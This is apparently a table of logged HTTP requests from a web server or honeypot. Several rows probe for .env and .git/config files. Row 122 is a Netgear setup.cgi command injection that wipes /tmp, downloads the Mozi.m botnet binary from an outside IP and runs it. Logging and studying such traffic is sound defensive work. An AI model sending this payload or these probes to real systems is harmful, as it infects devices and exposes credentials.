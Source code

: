 | 114 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\x8D\xE1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| 115 |                     1 | GET /.env.production HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 116 |                     1 | GET /assets../.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| 117 |                     1 | GET /configuration/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| 118 |                     1 | GET /api/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| 119 |                     1 | GET /socket.io/1/?t=1741556667347 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| 120 |                     1 | POST /Autodiscover/Autodiscover.xml HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 121 |                     1 | GET /oops/Kloki.mpsl HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| 122 |                     1 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://175.107.1.168:44567/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                                     |